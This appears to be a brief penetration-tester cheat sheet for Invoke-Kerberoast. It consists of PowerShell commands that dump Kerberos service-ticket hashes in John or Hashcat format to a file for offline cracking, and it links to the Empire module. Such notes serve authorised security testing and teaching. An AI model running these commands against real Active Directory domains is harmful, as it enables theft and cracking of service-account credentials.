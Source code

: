 # Invoke-Kerberoast

Search Tags: #kerberoasting

```
PS C:\> Invoke-Kerberoast -OutputFormat John

PS C:\> Invoke-Kerberoast -OutputFormat John | fl | Out-File -FilePath C:\path\to\hashes.txt -Append -Force -Encoding UTF8

PS C:\> Invoke-Kerberoast -OutputFormat HashCat

PS C:\> Invoke-Kerberoast -OutputFormat HashCat | fl | Out-File -FilePath C:\path\to\hashes.txt -Append -Force -Encoding UTF8
```

---
## References

- [BC-Security Empire Invoke-Kerberoast Module](https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/credentials/Invoke-Kerberoast.ps1)